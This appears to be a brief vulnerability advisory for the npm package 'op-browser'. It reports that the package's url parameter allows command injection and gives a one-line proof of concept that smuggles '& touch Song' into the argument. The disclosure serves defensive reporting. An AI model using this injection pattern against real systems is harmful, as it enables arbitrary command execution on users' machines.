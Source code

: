 # Overview

`op-browser` is a module that open browser window and set proxy, this package are vulnerable to Command Injection.

The `url` parameter can be controlled by users without any sanitization.

# Proof of Concept

```
var root = require("op-browser");
root.open('chrome','& touch Song','','');
```
